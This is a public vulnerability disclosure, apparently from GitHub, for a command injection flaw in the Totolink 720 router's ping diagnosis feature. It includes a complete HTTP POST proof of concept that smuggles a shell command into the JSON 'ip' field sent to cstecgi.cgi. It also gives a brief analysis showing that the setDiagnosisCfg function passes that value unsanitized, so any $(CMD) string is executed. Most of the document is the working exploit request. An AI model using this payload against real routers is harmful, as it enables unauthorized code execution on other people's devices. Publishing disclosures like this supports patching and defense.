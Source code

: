 Exploit Title:Totolink 720 has a code execution vulnerability  
Version:V4.1.5cu.374  
Date:2022/08/16  
Exploit Author:xiaohu816  
Vendor Homepage:https://www.totolink.net/  

POC:  
After the administrator logs in, enter "system tools" - > "Ping diagnosis" page  
执行tls>/tmp/1.txt命令  
``POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 52
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/advance/diagnosis.html?time=1659889464870
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: SESSION_ID=2:1591951611:2
Connection: close

{"ip":"aaaa\tls>/tmp/1.txt","num":"2","topicurl":"setDiagnosisCfg"}``  

Analysis Report: 
In the setdiagnosicfg function, the value string corresponding to the IP in the JSON data is directly put into V6  

![image](https://user-images.githubusercontent.com/111302002/184783693-4239eb22-9729-4d3b-8357-57af94abebb4.png)  

![image](https://user-images.githubusercontent.com/111302002/184783789-cdb09e00-feb1-4010-bc17-7ef477fe0da5.png)  
Just write a string such as $(CMD) in the value corresponding to the IP to complete the command injection at CMD  


